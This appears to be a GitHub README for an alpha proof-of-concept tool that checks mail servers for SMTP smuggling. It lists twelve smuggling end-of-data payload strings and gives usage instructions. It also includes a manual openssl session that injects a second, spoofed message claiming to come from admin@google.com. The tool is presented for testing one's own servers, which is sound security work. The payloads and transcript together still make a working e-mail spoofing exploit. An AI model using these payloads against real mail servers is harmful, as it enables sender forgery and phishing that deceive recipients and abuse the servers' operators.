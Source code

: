 # smtp_smuggling_checker.py
### smtp smuggling testing tool with tls / starttls support

### Infos:
> [!NOTE]
https://www.postfix.org/smtp-smuggling.html
> 
> https://sec-consult.com/blog/detail/smtp-smuggling-spoofing-e-mails-worldwide/

<hr>

> [!NOTE]
> ### Beware this is alpha POC !! tested with postfix and python3

<hr>

### Testing of postfix mailserver for example (localhost port 25 auth plain login(optinal)):
![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f46c47ed-8cd7-4395-9d2e-12589a505e21)


#### Testing these 12 payload strings:
```bash
#Smgggling Strings (0-11):
#smtp_smuggle_escape = '\r\n.\r'
#smtp_smuggle_escape = '\r.\r'
#smtp_smuggle_escape = '\r\n\x00.\r'
#smtp_smuggle_escape = '\r\n\x00.\n'
#smtp_smuggle_escape = \r\n\x00.\r\n
#smtp_smuggle_escape = \r\n.\x00\r\n
#smtp_smuggle_escape = '\r\n.'
#smtp_smuggle_escape = \n.\r\n
#smtp_smuggle_escape = \r.\r\n
#smtp_smuggle_escape = \n\n.\r\n
#smtp_smuggle_escape = \r\n.\r
#smtp_smuggle_escape = \n.\n
```

<hr>

## How to use:

```python
       _____  __  ___ ______ ____     _____                                  __               ____   ____   ______
      / ___/ /  |/  //_  __// __ \   / ___/ ____ ___   __  __ ____ _ ____ _ / /___   _____   / __ \ / __ \ / ____/
      \__ \ / /|_/ /  / /  / /_/ /   \__ \ / __ `__ \ / / / // __ `// __ `// // _ \ / ___/  / /_/ // / / // /     
     ___/ // /  / /  / /  / ____/   ___/ // / / / / // /_/ // /_/ // /_/ // //  __// /     / ____// /_/ // /___   
    /____//_/  /_/  /_/  /_/       /____//_/ /_/ /_/ \__,_/ \__, / \__, //_/ \___//_/     /_/     \____/ \____/   
                                                           /____/ /____/                                          
    
    SMTP Smuggle PoC Script v0.1 for checking mailservers - 2024 - by suuhmer

    
usage: smtp_smuggler_poc.py [-h] [--server SERVER] [--port PORT] [--user USER] [--rcpt RCPT] [--mode MODE]

Send mail with TLS und AUTH PLAIN.

options:
  -h, --help       show this help message and exit
  --server SERVER  SMTP-Servername DNS or IP
  --port PORT      SMTP-Serverport (Use 5870000 for 587 NOSSL)
  --user USER      SMTP-userername
  --rcpt RCPT      rcpt address
  --mode MODE      Rawmode = raw or Default = def
```

<hr>

### Run the script like this:

```bash
# Example : You have to setup the Parameters with the right values!
#
.\smtp_smuggler_poc.py --server mail.server.com --port 587 --user user@server.com --rcpt vic@server.com --mode def
```

<hr>

### Using telnet / openssl client for TLS

```bash
# Get base64 auth String:
# echo -n -e "\000info@myserver.com\000MYPASSWORD" | base64
#

openssl s_client -starttls smtp -crlf -connect mail.myserver.com:587 -tls1_2

EHLO myserver.com

AUTH PLAIN <YOU_BASE_64_STRING>

mail From: info@myserver.com

rcpt To: test@google.de

DATA
354 End data with <CR><LF>.<CR><LF>
From: test <it@google.de>
To: bla <jadu@foo.de>
Subject: Test1
bodyy Test1
<CR><LF>.<CR>
mail From: admin@google.com
rcpt To: jadu@foo.de
data
From: hallo admin <it@google.de>
To: gege <jadu@aniwe.de>
Subject: hallooooo
bodyyhacked
<CR><LF>.<CR><LF>
```

